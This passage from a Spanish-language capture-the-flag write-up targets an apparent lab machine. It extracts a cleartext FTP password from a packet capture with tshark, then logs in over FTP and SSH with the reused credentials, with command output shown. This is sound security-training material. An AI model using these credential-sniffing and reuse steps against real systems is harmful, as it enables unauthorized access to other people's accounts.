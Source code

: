 En este caso veremos otros protocolos, para poder hacer uso de filtros por protocolos, indicaremos el parámetro `-Y`. Como la captura contiene tráfico por el protocolo `FTP`, podemos filtrar esto para ver si vemos información de algún usuario

~~~ bash
tshark -r 0.pcap -Tfields -e tcp.payload | xxd -ps -r | grep PASS -B 3

220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
~~~

Y logramos ver que el usuario `nathan` inicia sesión para el servicio `ftp`, podemos hacer dos cosas, o intentar usar estas credenciales para el protocolo `ssh` o `ftp` mismo. Al menos ya sabemos que estas credenciales aplican para el servicio `ftp`

~~~ bash
ftp nathan@10.10.10.245                                                                                                 
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45435|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Mar 18 16:35 user.txt
drwxrwxr-x    2 1001     1001         4096 Mar 18 17:14 www
~~~

Si nos conectamos por `ftp` proporcionando la contraseña que extrajimos. lograremos ver la flag del usuario. Probaremos estas credenciales en `ssh` para verificar si se reutilizan

~~~ bash
ssh nathan@10.10.10.245                     
The authenticity of host '10.10.10.245 (10.10.10.245)' can\'t be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245\'s password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 18 20:01:12 UTC 2025

  System load:  0.0               Processes:             229
  Usage of /:   36.7% of 8.73GB   Users logged in:       1
  Memory usage: 35%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
~~~